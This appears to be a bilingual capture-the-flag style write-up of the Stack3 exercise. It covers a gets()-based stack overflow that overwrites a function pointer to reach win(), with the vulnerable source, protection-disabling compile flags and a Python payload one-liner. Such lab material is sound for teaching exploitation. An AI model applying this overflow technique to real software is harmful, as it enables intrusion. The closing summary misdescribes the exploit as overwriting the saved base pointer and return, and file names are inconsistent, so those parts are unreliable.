

# Objective

Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)

# Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
#include <err.h>

extern char *get(char *);

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

# Explanation

1. Compile :
```bash
gcc -m32 -fno-stack-protector -g -z execstack -no-pie Stackthree.c -o Stackthree
```

2. Find win address : 
```bash
objdump -d Stackthree | grep "<win>"
0x8049186
```


We can see that we have `fp` is located directly after `buffer`. Therefore we can overwrite it by entering 64 A's and inserting the `win` address `0x8049186`.

3. craft payload and test it :
```bash
python3 -c 'import sys,struct; sys.stdout.buffer.write(b"A"*64 + struct.pack("<Q",0x8049186))' | ./Stack3
```


-----------------------------------------------------------------------------------------------------------------------------------------

# What I learned

- Located the exact address of win() with `objdump -d ./stack3 | grep "<win>"`, the key starting point for building the payload.
- Exploited the buffer overflow to overwrite the saved base pointer, so the function’s return jumps straight to win(), hijacking program flow.

# Ce que j'ai appris

- Repéré l’adresse précise de win() avec `objdump -d ./stack3 | grep "<win>"`, étape clé pour fabriquer le payload.
- Exploité le dépassement de tampon pour écraser le pointeur de base sauvegardé, de sorte que le retour de fonction saute directement vers win() et détourne le flux du programme.
